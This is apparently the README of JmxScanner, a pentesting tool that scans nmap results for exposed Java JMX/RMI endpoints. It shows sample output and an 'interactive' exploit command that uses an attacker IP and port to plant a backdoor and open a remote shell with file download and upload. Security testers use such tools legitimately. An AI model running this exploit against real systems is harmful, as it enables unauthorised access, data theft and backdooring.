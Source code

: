 # JmxScanner
A scanner for jmx endpoint from nmap file

## JmxScanner scan
JmxScanner is able to do different actions, but it is basically made for scanning targets from nmap file

Lets say you're in internal pentest and you have done a nmap --top-ports 10000 on a CIDR. If you wanna check quickwin jmx endpoint you can use the below command.
What's great with JmxScanner is that it will try to be the more exhaustive as he can, and not only focus on bound name *jmxrmi*.

Moreover, it will not trust **host redirection** by default.

Exemple:
```bash
java -jar target/jmx-scanner-0.1.0.jar --action scan --nmap-file test.nmap 
[>] Parsing nmap file: test.nmap
	[+] RMI Target -- 127.0.0.1:1617
	[+] RMI Target -- 127.0.0.1:1337
	[+] RMI Target -- 127.0.0.1:1717
	[+] RMI Target -- 172.17.1.27:1099
	[+] RMI Target -- 172.17.1.32:49191
	[+] RMI Target -- 172.17.1.32:49203
	[+] RMI Target -- 172.17.1.58:1099
	[+] RMI Target -- 172.17.1.70:1098
	[+] RMI Target -- 172.17.1.70:7099
	[+] RMI Target -- 172.17.1.70:58970
	[+] RMI Target -- 172.17.1.75:49190
	[+] RMI Target -- 172.17.1.81:1099

============[ 127.0.0.1:1617 ]============
[+] Connecting to jmx server
[+] Connection successful
[>] Target 127.0.0.1:1617/jmxrmi is VULNERABLE
====================================

[-] Failed to catch remote registry
[-] No registry found for remote: 127.0.0.1:1337 ==> NOT_VULNERABLE

============[ 127.0.0.1:1717 ]============
[+] Connecting to jmx server
[+] Connection successful
[>] Target 127.0.0.1:1717/jmxrmi is VULNERABLE
====================================

[-] Failed to catch remote registry
[-] No registry found for remote: 172.17.1.27:1099 ==> NOT_VULNERABLE
...
```
## Why another tool
Yep a lot of tools are able to scan accessible jmx Endpoint.
But I made this tools for some reasons:
 1. Learn more about java RMI by myself
 2. Implementnig a scanner that can automate this task for internal pentest
 3. Finally, implement the choice to follow the Server redirection or not which seems really important to me

## Credits to other tools
Tools that I used for exploiting java-rmi and that helped me make this one:
 - remote-method-guesser (and obviously this part: resources/templates/SampleTemplate.java <3 to bypass redirect)
 - https://github.com/qtc-de/beanshooter
 - https://github.com/siberas/sjet
 - https://github.com/flubshi/jmx-exploiter

## Other actions
JmxScanner can also exploit the vulnerability, but basically it is most used to scan targets from an nmap file.

If you want to exploit you can use the following command:
```bash
java -jar target/jmx-scanner-0.1.0.jar --action interactive -t <target> -p <port> -sh <your_ip> -sp <your_port>
```
You shall then get an interactive shell with some options (type help to see them)

Options available are (for now):
 - download **<file_to_download>**
 - upload **<file_to_upload>** **<name_on_the_remote_target>**
 - exit (exit the shell and clean the backdoor)
 - help

## Install
Lazy:
 - Just use the jar already built --'
 - java -jar target/jmx-scanner-0.1.0.jar --help

Recommended:
 - sudo apt install maven
 - mvn package
 - java -jar target/jmx-scanner-0.1.0.jar --help

## To add
 - [ ] Handle jonas / jboss / tomcat ...
 - [ ] Handle SSL
 - [ ] Handle cd in **interactive** shell
